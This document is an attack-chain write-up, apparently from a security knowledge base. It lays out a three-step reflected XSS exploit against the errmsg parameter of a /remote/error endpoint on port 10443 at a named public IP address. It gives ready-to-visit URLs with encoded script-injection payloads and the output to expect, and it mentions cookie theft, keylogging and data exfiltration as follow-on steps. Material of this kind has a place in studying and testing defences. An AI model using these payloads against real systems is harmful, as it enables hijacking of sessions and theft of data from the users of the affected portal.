

# Reflected XSS Exploitation in Error Message Parameter

Multi-stage attack chain demonstrating a complete reflected XSS workflow via an unsanitized error message parameter.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)
- URL encoding tool (built-in browser dev tools or online encoder)

### Target Environment

- Web application hosted on HTTPS port 10443
- Vulnerable endpoint: /remote/error
- Network access to target IP: 102.176.160.119

### Initial Access Requirements

- Direct network access to the target server
- No authentication required for the endpoint
- Ability to craft and visit malicious URLs

## Detailed Attack Procedures

### Step 1: Access the Vulnerable Endpoint
procedure: [[procedures/Exploit-Reflected-XSS-in-Error-Endpoint]]

**Objective**: Identify the vulnerable /remote/error endpoint and confirm the errmsg parameter is reflected without sanitization.

**Instructions**: Open a web browser and navigate to the base vulnerable URL to observe how the errmsg parameter is handled.

```url
https://102.176.160.119:10443/remote/error?errmsg=test
```

Inspect the response to see if 'test' is reflected in the HTML output.

**Expected Output**: The parameter value appears unsanitized in the page source, e.g., in an error message div.

**Success Indicators**:
- Parameter reflection visible in browser dev tools
- No immediate script blocking or sanitization observed

### Step 2: Inject XSS Payload
procedure: [[procedures/Exploit-Reflected-XSS-in-Error-Endpoint]]

**Objective**: Craft and test a JavaScript payload in the errmsg parameter to bypass any basic filtering and confirm injection point.

**Instructions**: URL-encode a simple payload to close any open tags and inject a script. Use browser dev tools or an encoder to prepare the payload.

Example encoded payload: ABABAB--%3E%3Cscript%3Ealert(1337)%3C/script%3E

Append to the URL:

```url
https://102.176.160.119:10443/remote/error?errmsg=ABABAB--%3E%3Cscript%3Ealert(1337)%3C/script%3E
```

Visit the URL and check for payload execution.

**Expected Output**: Alert box with '1337' pops up, indicating successful injection.

**Success Indicators**:
- Script executes without errors
- Payload reflected as --><script>alert(1337)</script> in source

### Step 3: Execute Malicious Script for Impact
procedure: [[procedures/Exploit-Reflected-XSS-in-Error-Endpoint]]

**Objective**: Deploy a more targeted payload to demonstrate real-world impact, such as domain disclosure or session hijacking.

**Instructions**: Refine the payload for practical exploitation, e.g., to alert the document domain or steal cookies. Encode and visit the final URL.

Final encoded payload: --%3E%3Cscript%3Ealert(document.domain)%3C/script%3E

```url
https://102.176.160.119:10443/remote/error?errmsg=--%3E%3Cscript%3Ealert(document.domain)%3C/script%3E
```

Observe the execution in the browser.

**Expected Output**: Alert displays the document domain, confirming control over the victim's browser context.

**Success Indicators**:
- Domain alert confirms execution in target context
- Potential for further actions like keylogging or data exfiltration

## Attack Chain Summary

### Key Achievements

1. Identified and confirmed reflected XSS in errmsg parameter
2. Bypassed sanitization with tag-closing payload
3. Executed JavaScript to simulate user-impersonating actions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2024-01-01T00:00:00Z*
